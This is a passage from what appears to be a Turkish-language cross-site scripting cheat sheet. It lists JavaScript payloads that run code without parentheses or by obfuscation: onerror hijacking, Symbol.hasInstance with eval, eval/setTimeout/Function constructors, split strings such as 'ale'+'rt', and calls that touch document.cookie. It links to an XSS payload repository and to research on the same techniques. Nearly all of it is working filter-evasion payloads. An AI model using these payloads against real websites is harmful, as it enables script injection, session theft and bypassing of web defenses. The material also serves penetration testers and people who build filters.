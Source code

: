 ````javascript
eval("onerror=\u2028alert\u2029throw 1337");
// Error handler + Comma separator
// The comma separator goes through the list and returns only the last element
var a = (1,2,3,4,5,6) // a = 6
throw onerror=alert,1337 // this is throw 1337, after setting the onerror event to alert
throw onerror=alert,1,1,1,1,1,1337
// optional exception variables inside a catch clause.
try{throw onerror=alert}catch{throw 1}


// Has instance symbol
'alert\x281\x29'instanceof{[Symbol['hasInstance']]:eval}
'alert\x281\x29'instanceof{[Symbol.hasInstance]:eval}
// The “has instance” symbol allows you to customise the behaviour of the instanceof operator, if you set this symbol it will pass the left operand to the function defined by the symbol.
````
- [https://github.com/RenwaX23/XSS-Payloads/blob/master/Without-Parentheses.md](https://github.com/RenwaX23/XSS-Payloads/blob/master/Without-Parentheses.md)
- [https://portswigger.net/research/javascript-without-parentheses-using-dommatrix](https://portswigger.net/research/javascript-without-parentheses-using-dommatrix)

**Rastgele fonksiyon (alert) çağrısı**
````javascript
//Eval like functions
eval('ale'+'rt(1)')
setTimeout('ale'+'rt(2)');
setInterval('ale'+'rt(10)');
Function('ale'+'rt(10)')``;
[].constructor.constructor("alert(document.domain)")``
[]["constructor"]["constructor"]`$${alert()}```
import('data:text/javascript,alert(1)')

//General function executions
`` //Can be use as parenthesis
alert`document.cookie`
alert(document['cookie'])
with(document)alert(cookie)
(alert)(1)
(alert(1))in"."
a=alert,a(1)
[1].find(alert)
window['alert'](0)
parent['alert'](1)
self['alert'](2)
top['alert'](3)
this['alert'](4)
frames['alert'](5)
content['alert'](6)
[7].map(alert)
[8].find(alert)
[9].every(alert)
[10].filter(alert)
[11].findIndex(alert)
[12].forEach(alert);
top[/al/.source+/ert/.source](1)
top[8680439..toString(30)](1)
Function("ale"+"rt(1)")();
new Function`al\ert\`6\``;
Set.constructor('ale'+'rt(13)')();
Set.constructor`al\x65rt\x2814\x29```;
$='e'; x='ev'+'al'; x=this[x]; y='al'+$+'rt(1)'; y=x(y); x(y)
x='ev'+'al'; x=this[x]; y='ale'+'rt(1)'; x(x(y))
this[[]+('eva')+(/x/,new Array)+'l'](/xxx.xxx.xxx.xxx.xx/+alert(1),new Array)
globalThis[`al`+/ert/.source]`1`
````